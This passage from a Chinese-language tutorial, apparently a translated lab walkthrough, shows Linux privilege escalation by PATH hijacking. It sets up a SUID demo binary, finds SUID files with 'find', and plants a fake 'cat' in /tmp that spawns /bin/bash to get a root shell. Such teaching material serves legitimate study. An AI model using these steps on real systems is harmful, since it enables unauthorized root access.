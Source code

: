 然后使用gcc编译demo.c文件，并将编译文件提升到SUID权限

```
ls
gcc demo.c -o ignite
chmod u+s ignite
ls -la ignite
```

[![](https://p5.ssl.qhimg.com/t01ee36ed1cd058067b.png)](https://p5.ssl.qhimg.com/t01ee36ed1cd058067b.png)

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E5%8F%97%E5%AE%B3%E8%80%85%E7%9A%84VM%E6%9C%BA%E5%99%A8"></a>渗透受害者的VM机器

再次登陆受害者的系统，然后进入提权阶段，并执行以下命令查看sudo用户列表。

```
find / -perm -u=s -type f 2&gt;/dev/null
```

在这里我们也可以发现/home/raj/script/ignite具有suid权限，然后我们进入/home/raj/script并看到一个可执行文件”ignite”。所以，当我们运行这个文件时，会产生一个”cat：/home/raj/msg.txt”的错误结果。

```
cd /home/raj/script
ls
./ignite
```

[![](https://p5.ssl.qhimg.com/t01137bbddd2619316d.png)](https://p5.ssl.qhimg.com/t01137bbddd2619316d.png)

### <a class="reference-link" name="Vi%E7%BC%96%E8%BE%91%E5%99%A8"></a>Vi编辑器

```
cd /tmp
vi cat
```

现在在终端输入/bin/bash并保存。<br>[![](https://p3.ssl.qhimg.com/t01f7918d8a1f5e8213.png)](https://p3.ssl.qhimg.com/t01f7918d8a1f5e8213.png)

```
chmod 777 cat
ls -al cat
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./ignite
whoami
```

[![](https://p0.ssl.qhimg.com/t011fd052be5e041fec.png)](https://p0.ssl.qhimg.com/t011fd052be5e041fec.png)<br>
作者： AArti Singh是黑客文章的研究人员和技术撰稿人 信息安全顾问社交媒体爱好者。 [在这里联系](https://www.linkedin.com/in/aarti-singh-353698114)
